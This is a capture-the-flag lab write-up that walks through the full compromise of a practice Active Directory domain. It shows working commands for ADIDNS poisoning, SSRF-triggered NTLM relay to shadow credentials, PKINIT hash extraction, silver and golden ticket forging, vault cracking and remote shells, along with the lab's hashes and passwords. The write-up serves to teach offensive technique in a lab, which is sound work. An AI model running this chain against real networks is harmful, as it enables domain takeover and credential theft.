





## Objective / Scope

Assumed breach scenario, starting credentials: `pentest:pentest`

| Host | IP | Role |
|------|----|------|
| DC01 | 10.253.45.11 | Domain Controller — kenocorp.lan |
| WEB01 | 10.253.45.29 | Web Server |

```bash
echo "10.253.45.11 DC01.kenocorp.lan kenocorp.lan DC01" >> /etc/hosts && echo "10.253.45.29 WEB01.kenocorp.lan WEB01" >> /etc/hosts
```

---

## Initial Recon

### SMB Shares — DC01

| Share | Access | Notes |
|-------|--------|-------|
| IT | READ (via Security→IT) | Internal PDFs |
| MGMT | ACL | — |
| RH | ACCESS_DENIED | — |
| NETLOGON | READ | — |
| SYSVOL | READ | — |

### ACLs on pentest account

Via bloodyAD, `pentest` has **WRITE** on:
- `msPKIAccountCredentials` → Shadow Credentials
- **DNS** (DomainDnsZones): `dnsNode CREATE_CHILD` → **ADIDNS poisoning**

---

## WEB01 — SSRF → NTLM Relay → Shadow Credentials

### ADIDNS Poisoning

The `pentest` account can create DNS entries. We point `pdf.kenocorp.lan` and `git.kenocorp.lan` to our machine to bypass KenoMonitor's whitelist:

```bash
dnstool.py -u 'kenocorp.lan\pentest' -p 'pentest' -r pdf -a add -t A -d 10.200.0.32 10.253.45.11
dnstool.py -u 'kenocorp.lan\pentest' -p 'pentest' -r git -a add -t A -d 10.200.0.32 10.253.45.11
```

Then trigger the SSRF, WEB01 authenticates over NTLM to our listener:

```bash
curl -s -X POST 'http://10.253.45.29/' --data 'url=http://pdf.kenocorp.lan'
```



### ntlmrelayx → Shadow Credentials

```bash
ntlmrelayx.py -t ldap://10.253.45.11 --shadow-credentials --shadow-target 'WEB01$' -smb2support
```

WEB01$'s NTLM auth gets relayed to LDAP on DC01 → `msDS-KeyCredentialLink` written on WEB01$.



Output: `78HEvZju.pfx` / `VDRzSs8yBjUcewvtH`

### PKINIT → NT hash WEB01$

```bash
certipy auth -pfx 78HEvZju.pfx -password VDRzSs8yBjUcewvtH -username 'WEB01$' -domain kenocorp.lan -dc-ip 10.253.45.11
```

```
Got hash for 'web01$@kenocorp.lan': aad3b435b51404eeaad3b435b51404ee:315517267b0968f6173e48ba648bc4b2
```

---

## WEB01 — Silver Ticket → User Flag

RBCD is blocked (DENY ACE on `msDS-AllowedToActOnBehalfOfOtherIdentity`) and constrained delegation is blocked (SeEnableDelegationPrivilege required). We forge a **Silver Ticket** directly for `cifs/WEB01`, signed with WEB01$'s NT hash:

```bash
ticketer.py -nthash '315517267b0968f6173e48ba648bc4b2' -domain-sid 'S-1-5-21-175356196-1599867514-1195351626' -domain kenocorp.lan -spn 'cifs/WEB01.kenocorp.lan' Administrator
export KRB5CCNAME=Administrator.ccache
wmiexec.py -k -no-pass Administrator@WEB01.kenocorp.lan -dc-ip 10.253.45.11
```

```
type flag.txt
KENO{Silv3r_N0t_Sl1ver}
```

> **Silver vs Golden**: The Silver Ticket is signed with the **service account hash** (WEB01$), not krbtgt. Single service access without contacting the KDC, invisible to defenses monitoring TGTs. → [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

---

## Pivot WEB01 → pierre.durand

### Ansible Vault

secretsdump on WEB01 returns DCC2 hashes and a DefaultPassword. In `C:\OPS\ansible\00_inventory.yml` there is an Ansible vault containing pierre.durand's password.



```bash
ansible2john.py /tmp/vault.yml > /tmp/vault.hash && john /tmp/vault.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Password: `30secondstomars`

```bash
ansible-vault decrypt /tmp/vault.yml
```

Credential: `pierre.durand:wp7DIjcIg9ib0JMLLbOI85qCD#`

---

## Share IT → Pentest Report → Admin Credentials

`pierre.durand` is in **Security** → member of **IT** → access to the IT share on DC01.



```bash
nxc smb 10.253.45.11 -u pierre.durand -p 'wp7DIjcIg9ib0JMLLbOI85qCD#' --shares
```



```
\\10.253.45.11\IT\Security\pentest_report.pdf  ← 1.2 MB
```

The GuruPentest report (Dec 2024) contains proof screenshots from the pentest, the pentester forgot to redact the tool output. One screenshot shows the result of a secretsdump already run by the auditor, exposing the krbtgt hashes directly.

```
krbtgt NT    : 2e1cc7ff47d916e5255def6402452783
krbtgt AES256: a7977840e57a5e7dcf400ee05b0617e8e90c3b5b3828e86505a0d15c0f51ea59
```

---

## DC01 — Golden Ticket → Root Flag

> [The Hacker Recipes: Golden Ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden)

```bash
ticketer.py -aesKey a7977840e57a5e7dcf400ee05b0617e8e90c3b5b3828e86505a0d15c0f51ea59 -domain-sid S-1-5-21-175356196-1599867514-1195351626 -domain kenocorp.lan Administrator
export KRB5CCNAME=Administrator.ccache
nxc smb 10.253.45.11 -u Administrator --use-kcache --shares
psexec.py -k -no-pass kenocorp.lan/Administrator@DC01.kenocorp.lan
```

```
C:\Users\Administrator\Desktop> type flag.txt
KENO{P3nt3ster_c4n_M4k3_Mist4ke}
```

---

## Flags

| Machine | Flag |
|---------|------|
| WEB01 (user) | `KENO{Silv3r_N0t_Sl1ver}` |
| DC01 (root)  | `KENO{P3nt3ster_c4n_M4k3_Mist4ke}` |

---

## Attack Chain

```
pentest:pentest (assumed breach)
    │
    ├─ ADIDNS poisoning (dnstool → pdf/git.kenocorp.lan → 10.200.0.32)
    │       └─ KenoMonitor SSRF → ntlmrelayx → shadow credentials WEB01$
    │               └─ certipy PKINIT → NT hash WEB01$
    │                       └─ Silver Ticket cifs/WEB01
    │                               └─ wmiexec WEB01 → user flag ✓
    │                               └─ secretsdump → Ansible vault
    │
    └─ ansible2john + john (30secondstomars) → pierre.durand:wp7DIjcIg9ib0JMLLbOI85qCD#
            └─ SMB share IT (Security→IT membership)
                    └─ pentest_report.pdf → secretsdump output in proof screenshots (pentester mistake)
                            └─ krbtgt NT + AES256 extracted from report
                                    └─ Golden Ticket → nxc validate → psexec DC01
                                            └─ root flag ✓
```

---

## Takeaways

- **ADIDNS poisoning**: if `pentest` has `dnsNode CREATE_CHILD`, we can create A records and redirect DNS resolutions to ourselves to bypass whitelists.
- **Shadow Credentials via relay**: ntlmrelayx to LDAP(S) with the shadow-credentials option gives a PFX on the target without touching its password. PKINIT gives TGT + NT hash.
- **Silver Ticket when RBCD is blocked**: DENY ACE or missing privilege → forge a TGS directly with the machine account NT hash.
- **Pentest reports = goldmine**: a pentest report on an internal share = architecture, users, and sometimes sensitive tool output inside proof screenshots (secretsdump results, hashes, tickets).
- **nxc with use-kcache**: always validate a ccache with nxc before attempting psexec/wmiexec, isolates ticket issues from tool issues.
